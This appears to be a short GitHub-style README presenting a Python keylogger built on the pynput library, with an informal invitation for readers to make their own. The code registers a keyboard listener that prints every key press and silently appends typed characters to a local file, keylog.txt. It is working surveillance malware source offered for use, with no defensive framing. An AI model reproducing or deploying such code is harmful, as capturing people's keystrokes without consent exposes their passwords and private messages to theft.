 # KeyLogger
#Hey, check this key logger that I've created. You can also make one, but first you have to type a command in your CMD "pip install pynput"

from pynput import keyboard

def KeyPressed(key):
      print(str(key))
      with open("keylog.txt", "a") as logkey:
            try:
                  char= key.char
                  logkey.write(char)
            except:
                  print("Error Getting char")

if __name__ == "__main__":
   
        listener = keyboard.Listener(on_press=KeyPressed)
        listener.start()
        input()
